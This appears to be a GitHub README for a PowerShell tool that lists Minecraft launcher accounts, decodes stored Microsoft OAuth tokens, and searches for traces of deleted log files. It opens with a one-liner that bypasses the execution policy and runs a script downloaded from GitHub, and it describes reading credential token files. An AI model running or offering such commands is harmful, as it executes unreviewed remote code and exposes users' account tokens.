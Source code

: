 - **`powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"`**

🛠️ **ALTS-CHECKER TOOL**
🔐 PowerShell script to analyze locally stored Minecraft accounts.

This PowerShell tool allows you to view, inspect, and decode Minecraft accounts stored in local files by TLauncher or the official Minecraft launcher, including Microsoft OAuth tokens (accessToken / id_token) when available.

📁**Open Log Folders**
 - Automatically opens log folders.

🔍 **Search for Deleted Logs**
 - Uses fsutil usn readjournal to detect traces of deleted files like:
  - latest.log, .log.gz, launcher_profiles.json, usernamecache.json, etc.
  - Results are saved to logs.txt and opened in Notepad.

🧾 **View Minecraft Accounts**
 - Scans and parses the following files:
   - TlauncherProfiles.json
   - launcher_accounts.json
   - usernamecache.json
   - usercache.json

**Displays information for each account found**:
 - Username
 - UUID
 - Account type
 - Microsoft token present ✅ / ❌
 - If a token is found, it’s decoded to show JWT claims in a readable table.

🔓 **Microsoft Token Decoder**
 - Function: Decode-Jwt
 - Accepts a JWT (accessToken or id_token).
 - Splits and base64-decodes the payload.
 - Returns readable JSON claims.

⚠️ **Requirements**
 - Windows PowerShell
 - Admin rights (for deleted file search)
 - TLauncher or Minecraft Launcher installed

📁 **Files Analyzed**
 - %APPDATA%\.minecraft\TlauncherProfiles.json
 - %APPDATA%\.minecraft\launcher_accounts.json
 - %APPDATA%\.minecraft\usernamecache.json
 - %APPDATA%\.minecraft\usercache.json

📜 **Legal Notice**
This tool is intended for personal use and debugging only. It must not be used to violate any terms of service or access unauthorized accounts.
The author is not responsible for any misuse of this script.
